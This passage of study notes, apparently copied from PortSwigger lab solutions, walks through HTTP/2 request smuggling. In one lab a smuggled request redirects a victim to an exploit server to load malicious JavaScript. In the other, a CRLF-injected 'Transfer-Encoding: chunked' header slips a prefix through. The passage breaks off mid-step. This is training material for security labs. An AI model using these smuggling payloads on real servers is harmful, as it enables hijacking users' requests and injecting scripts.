 ```ad-success
7. In Burp Repeater, edit your malicious request so that the `Host` header points to your exploit server:
    
    ~~~
    POST / HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Content-Length: 0 GET /resources HTTP/1.1 Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net Content-Length: 5 x=1
    ~~~
1. Send the request a few times and confirm that you receive a redirect to the exploit server.
    
9. Resend the request and wait for 10 seconds or so.
    
10. Go to the exploit server and check the access log. If you see a `GET /resources/` request from the victim, this indicates that your request smuggling attack was successful. Otherwise, check that there are no issues with your attack request and try again.
    
11. Once you have confirmed that you can cause the victim to be redirected to the exploit server, repeat the attack until the lab solves. This may take several attempts because you need to time your attack so that it poisons the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, although their browser will load your malicious JavaScript, it won't execute it.
```

# HTTP/2 request smuggling via CRLF injection
Reference: https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection

```ad-success
title: Solution
1. In Burp's browser, use the lab's search function a couple of times and observe that the website records your recent search history. Send the most recent `POST /` request to Burp Repeater and remove your session cookie before resending the request. Notice that your search history is reset, confirming that it's tied to your session cookie.
    
2. Expand the Inspector's **Request Attributes** section and make sure the protocol is set to HTTP/2.
    
3. Using the Inspector, add an arbitrary header to the request. Append the sequence `\r\n` to the header's value, followed by the `Transfer-Encoding: chunked` header:
    
    **Name**
    
    ~~~
    foo
    ~~~
    
    **Value**
    
    ~~~
    bar\r\n Transfer-Encoding: chunked
    ~~~
1. In the body, attempt to smuggle an arbitrary prefix as follows:
    
    ~~~
    0 SMUGGLED
    ~~~
    Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix
    
5. Change the body of the request to the following:
    
    ~~~
```